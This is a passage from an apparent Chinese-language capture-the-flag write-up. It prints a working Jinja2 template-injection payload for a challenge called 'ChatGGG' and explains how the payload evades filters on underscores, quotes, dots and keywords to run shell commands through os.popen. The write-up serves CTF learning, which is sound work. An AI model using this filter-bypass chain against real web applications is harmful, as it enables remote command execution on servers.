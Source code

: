 解密密文就是之前获得的密码

![image-20230506220655514](https://s2.loli.net/2023/05/06/ATb3SLN97oXU2tf.png)





#### ChatGGG

SSTI

```jinja2
{% set x="\x5f" %}
{% set c=x~x~"cla"~"ss"~x~x %}
{% set glo=x~x~"glo"~"bals"~x~x %}
{% set geti=x~x~"get"~"item"~x~x %}
{% set buil=x~x~"buil"~"tins"~x~x %}
{% set im=x~x~"imp"~"o"~"rt"~x~x %}
{% set lip=(lipsum|attr(glo)|attr(geti))(buil) %}
{% set oo=((lip|attr(geti))(im))("os") %}
{% print(oo|attr("popen")("ls")|attr("read")()) %}
```

过滤了下划线、单引号、点、一些关键字。

我们使用编码绕过下划线过滤，使用双引号、点可以使用管道符`|`绕过

使用`?`正则代替小数点获取文件名

![image-20230510170549979](https://s2.loli.net/2023/05/10/yPXm9Q8iSDMsE1t.png)















